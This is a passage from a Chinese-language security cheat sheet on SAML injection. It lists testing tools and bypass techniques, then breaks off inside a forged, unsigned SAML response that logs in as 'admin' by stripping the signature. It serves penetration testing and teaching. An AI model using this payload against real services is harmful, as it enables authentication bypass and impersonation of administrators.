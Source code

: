 # SAML 注入

> 安全断言标记语言（SAML）是一个开放标准，允许跨网络的多台计算机共享安全凭据。在使用基于 SAML 的单点登录（SSO）时，涉及到三个不同的角色。有一个用户（所谓的主体）、一个身份提供者（IDP）和一个云应用程序服务提供者（SP）。- centrify

## 摘要

* [工具](#工具)
* [认证绕过](#认证绕过)
  * [无效签名](#无效签名)
  * [签名剥离](#签名剥离)
  * [XML 签名包装攻击](#xml-签名包装攻击)
  * [XML 注释处理](#xml-注释处理)
  * [XML 外部实体](#xml-外部实体)
  * [可扩展样式表语言转换](#可扩展样式表语言转换)

## 工具

- [SAML Raider - Burp 扩展](https://github.com/SAMLRaider/SAMLRaider)
- [SAML 支持 - ZAP 插件](https://www.zaproxy.org/docs/desktop/addons/saml-support/)

## 认证绕过

SAML 响应应包含 `<samlp:Response xmlns:samlp="urn:oasis:names:tc:SAML:2.0:protocol"`。

### 无效签名

未经真实 CA 签名的签名容易受到克隆。确保签名由真实 CA 签名。如果证书是自签名的，您可能能够克隆证书或创建自己的自签名证书来替换它。

### 签名剥离

> [...]接受未签名的 SAML 断言相当于接受一个未检查密码的用户名 - @ilektrojohn

目标是在不签名的情况下伪造一个格式良好的 SAML 断言。对于某些默认配置，如果从 SAML 响应中省略签名部分，则不执行签名验证。

示例：未签名的 SAML 断言，其中 `NameID=admin`。

```xml
<?xml version="1.0" encoding="UTF-8"?>
<saml2p:Response xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol" Destination="http://localhost:7001/saml2/sp/acs/post" ID="id39453084082248801717742013" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
    <saml2:Issuer xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" Format="urn:oasis:names:tc:SAML:2.0:nameidformat:entity">REDACTED</saml2:Issuer>
    <saml2p:Status xmlns:saml2p="urn:oasis:names:tc:SAML:2.0:protocol">
        <saml2p:StatusCode Value="urn:oasis:names:tc:SAML:2.0:status:Success" />
    </saml2p:Status>
    <saml2:Assertion xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion" ID="id3945308408248426654986295" IssueInstant="2018-04-22T10:28:53.593Z" Version="2.0">
        <saml2:Issuer Format="urn:oasis:names:tc:SAML:2.0:nameid-format:entity" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">REDACTED</saml2:Issuer>
        <saml2:Subject xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:NameID Format="urn:oasis:names:tc:SAML:1.1:nameidformat:unspecified">admin</saml2:NameID>
            <saml2:SubjectConfirmation Method="urn:oasis:names:tc:SAML:2.0:cm:bearer">
                <saml2:SubjectConfirmationData NotOnOrAfter="2018-04-22T10:33:53.593Z" Recipient="http://localhost:7001/saml2/sp/acs/post" />
            </saml2:SubjectConfirmation>
        </saml2:Subject>
        <saml2:Conditions NotBefore="2018-04-22T10:23:53.593Z" NotOnOrAfter="2018-0422T10:33:53.593Z" xmlns:saml2="urn:oasis:names:tc:SAML:2.0:assertion">
            <saml2:AudienceRestriction>
                <saml2:Audience>WLS_SP</saml2:Audience>
            </saml2:AudienceRestriction>
```
